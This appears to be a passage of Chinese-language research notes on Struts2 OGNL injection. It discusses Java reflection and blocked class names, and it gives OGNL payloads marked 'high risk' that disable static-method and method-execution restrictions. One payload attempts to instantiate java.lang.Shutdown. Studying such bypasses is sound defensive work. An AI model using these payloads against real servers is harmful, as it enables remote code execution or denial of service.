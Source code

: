 ### 11 = "com.atlassian.core.util.ClassHelper"
* [atlassian doc](https://docs.atlassian.com/DAC/javadoc/atlassian-core/4.6.0/reference/com/atlassian/core/util/ClassHelper.html)


### 12 = "class"
* [转自 CSDN](https://blog.csdn.net/m0_60311922/article/details/122927931)
* 这个是反射，`String.class` 可以返回一个代表String类的类对象 (官方叫 `类类型`，`Class Type`. 类其实也是一个对象)
* 一个类的类对象只能有一个
* `String.class` == `String str = new String("test"); str.getClass()`
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.String("test"),#a.getClass()}
  ```
  ![](./imgs/chop-12-001.png)


### <font color="red">13 = "java.lang.Shutdown"</font>
* src-code
  [Jump to java.lang.Shutdown](./assets/Shutdown.java)
* 这个是个静态内部类，没有 public 修饰，应该是不能实例化?
* payload
  ```js
  // high risk
  // 但感觉不对，不能这么用。官网文档上也没找到 java.lang.Shutdown
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Shutdown()}
  ```